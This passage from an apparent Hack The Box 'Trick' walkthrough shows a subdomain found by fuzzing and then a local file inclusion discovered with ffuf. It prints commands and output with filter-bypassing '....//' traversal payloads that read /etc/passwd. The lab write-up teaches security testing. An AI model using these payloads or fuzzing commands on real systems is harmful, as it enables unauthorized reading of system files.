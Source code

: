 ```
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 5480
________________________________________________

marketing               [Status: 200, Size: 9660, Words: 3007, Lines: 179, Duration: 150ms]
:: Progress: [4989/4989] :: Job [1/1] :: 454 req/sec :: Duration: [0:00:12] :: Errors: 0 ::
```

Now we can add `preprod-marketing.trick.htb` to our `/etc/hosts` file right next to `trick.htb`. The final line in that file should now look something like this

```
10.10.11.166    trick.htb preprod-marketing.trick.htb
```

## User

Going to this site, we can see that `index.php` is set up in an interesting way - when we click on the different sections of the page, it adds a parameter to the URL with the filename of the section it loads. This seems ripe for a Local File Inclusion (LFI) vulnerability. Let's do some more fuzzing to see if one exists, and how we can exploit it. Start by running

```bash
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u "http://preprod-marketing.trick.htb/index.php?page=FUZZ"
```

Again, after seeing a few results, we can stop the command and filter out `size=0`, like this

```bash
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u "http://preprod-marketing.trick.htb/index.php?page=FUZZ" -fs 0
```

Running that command should return something like this
```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://preprod-marketing.trick.htb/index.php?page=FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2351, Words: 28, Lines: 42, Duration: 84ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2351, Words: 28, Lines: 42, Duration: 84ms]
[...]
....//....//....//etc/passwd [Status: 200, Size: 2351, Words: 28, Lines: 42, Duration: 133ms]
```
